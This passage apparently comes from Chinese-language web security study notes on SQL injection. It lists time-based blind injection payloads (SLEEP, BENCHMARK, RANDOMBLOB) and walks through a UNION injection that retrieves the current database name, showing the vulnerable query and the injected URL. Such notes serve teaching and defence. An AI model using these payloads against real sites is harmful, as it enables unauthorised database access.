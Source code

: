 ```
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```


## 2.2、查询当前数据库
**2.2.1、Union注入**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="select * from users where id='$id' limit 0,1"`

当我们输入：
```
http://xmtxsec.top/test.php/?id=-1' union select database()--+
```

实际执行的SQL语句为：
```
select * from users where id='-1' union select database()
```

**分析：**`id=-1`为假执行后面的SQL语句，所以页面返回当前数据库名称。
![image.png](../../_img/02-Web安全/01-基础知识/1664331214976-8428871a-7b92-467f-8b8d-4f8156351bd0.png)
